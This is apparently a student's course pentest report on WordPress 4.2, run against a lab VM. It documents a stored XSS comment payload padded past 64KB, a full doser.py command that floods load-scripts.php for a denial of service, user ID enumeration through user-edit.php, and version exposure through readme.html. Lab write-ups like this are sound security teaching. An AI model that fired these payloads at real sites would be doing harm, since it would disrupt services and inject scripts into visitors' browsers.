 # Codepath Week7: Wordpress
# Project 7 - WordPress Pentesting

Time spent: **24** hours spent in total

> Objective: Find, analyze, recreate, and document vulnerabilities affecting an old version of WordPress

## Pentesting Report

### 1. WordPress <= 4.2 - Unauthenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary:
		1. A comment which exceeds 64 kb of data to a post will cause the HTML to no longer be 'well formed', allowing a malicious script to be inserted.  
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough: ![](https://github.com/dallens/CodepathWeek7Wordpress/XssWeek7.gif)
  - [ ] Steps to recreate: 
		1. Over 64kb of data must be sent in the comment, achieved by padding the comment with over 64000 'X's . 
		2. The script is thus: <a title='x onmouseover=alert(unescape(/hello%20dallens/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px --64000Xs--'></a>
		3. Post this code as a comment and a persistent XSS dialog box will display.
  - [ ] Affected source code:
    - [change 32299](https://core.trac.wordpress.org/changeset/32299)
### 2. WordPress <= 4.9.4 - Unauthenticated Page Request Application Denial of Service (DoS) (unpatched)
  - [ ] Summary: 
		1. An unauthenticated request to to all Wordpress stored javascripts that is uneccesary for site functionality can be leveraged for a DOS, causing the server to be unresponsive.
    - Vulnerability types: DOS/Improper Authentication
    - Tested in version: 4.2
    - Fixed in version: Unpatched 
  - [ ] GIF Walkthrough: UnauthenticatedDOSfinal.gif
  - [ ] Steps to recreate: 
		1. Use a script to generate multiple requests (https://github.com/Quitten/doser.py/blob/master/doser.py) and a specially crafted payload requesting all stored javascript modules is launched from the attacker's machine.
		2. ```python doser.py -g 'http://wpdistillery.vm/wp-admin/load-scripts.php?c=1&load%5B%5D=eutil,common,wp-a11y,sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-repl,json2,underscore,backbone,wp-util,wp-sanitize,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrat,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,jshint,esprima,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-ba,wplink,wpdialogs,word-coun,media-upload,hoverIntent,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embe,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,updates,farbtastic,iris,wp-color-picker,dashboard,list-revision,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter&ver=4.9' -t 9999```
  - [ ] Affected source code:
    - [Wordpress scriptloader](https://github.com/WordPress/WordPress/blob/master/wp-includes/script-loader.php)
### 3. Unauthenticated Valid User ID Enumeration
  - [ ] Summary:
		1. A user which does not have user edit permissions may manipulate the URL to enumerate valid user IDs  
    - Vulnerability types: URL Manipulation / User Enumeration
    - Tested in version: 4.2
    - Fixed in version: N/A
  - [ ] GIF Walkthrough: UnauthenticatedUser_Enumeration.gif
  - [ ] Steps to recreate: 
		1. Log in as user with access to WP-Admin but no user modification priviledges 
		2. Insert the following as a URL: http://wpdistillery.vm/wp-admin/user-edit.php?user_id=2&wp_http_referer=%2Fwp-admin%2Fusers.php
		3. Change the host/server address to you own and iterate through the user IDs. Move from "you do not have permission" to "user ID not valid" to enumerate the range of valid IDs. 
  - [ ] Affected source code:
    - [source_file](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 4. http://wpdistillery.vm/readme.html exposes version number
  - [ ] Summary: 
		1. The Wordpress version is exposed via an unauthenticated request to the README file.
    - Vulnerability types: Fingerprinting or Enumeration
    - Tested in version: 4.2
    - Fixed in version: (unfixed)
  - [ ] GIF Walkthrough: README_VersionFingerprinting.gif
  - [ ] Steps to recreate: 
		1. Navigate to http://wpdistillery.vm/readme.html
		2. Wordpress version is exposed without any authentication or effort by an attacker.
  - [ ] Affected source code:
    - [source_file](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright 2018

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
